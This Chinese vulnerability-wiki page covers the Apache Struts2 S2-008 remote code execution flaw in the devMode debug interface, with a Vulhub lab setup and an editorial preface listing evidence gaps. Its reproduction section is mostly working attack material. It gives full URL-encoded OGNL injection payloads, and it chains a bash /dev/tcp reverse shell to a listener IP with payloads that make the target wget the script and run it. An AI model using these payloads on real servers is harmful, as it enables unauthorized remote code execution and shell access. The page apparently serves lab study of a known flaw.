

# Apache Struts2 S2-008 远程代码执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2.1.0–2.3.1声称范围；devMode开启，调试接口可达，Linux命令条件；Cookie拦截器为另一个未复现入口
- 证据范围：明确多问题但实际只演示debug=command；不得把cookie配置风险和该演示当相同技术路径。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 生产几乎不可能/鸡肋是无依据风险判断，改为非默认配置条件
- Mac calculator与Linux容器示例混用须注明平台
- 缺各子问题CVE映射/修复，尤其关闭devMode这一直接缓解
- 已有入侵后安装后门的假设不是漏洞触发必要条件，应删离题推测
- 下载shell副作用和完整请求配置缺失

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

参考链接：

- http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html
- http://struts.apache.org/docs/s2-008.html

## 漏洞影响

影响版本: 2.1.0 - 2.3.1

## 环境搭建

Vulhub 执行以下命令启动 s2-008 测试环境：

```shell
docker-compose build
docker-compose up -d
```

## 漏洞复现

在 devMode 模式下直接添加参数 `?debug=command&expression=<OGNL EXP>`，会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）。

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```

### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```shell
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22wget%20192.168.174.128%2fshell.sh%22%29)
```

执行 shell.sh 文件的命令为：

```shell
bash /usr/local/tomcat/shell.sh
```

执行 shell.sh 文件的 Payload 为：

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22bash%20%2fusr%2flocal%2ftomcat%2fshell.sh%22%29)
```

成功接收反弹 shell：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
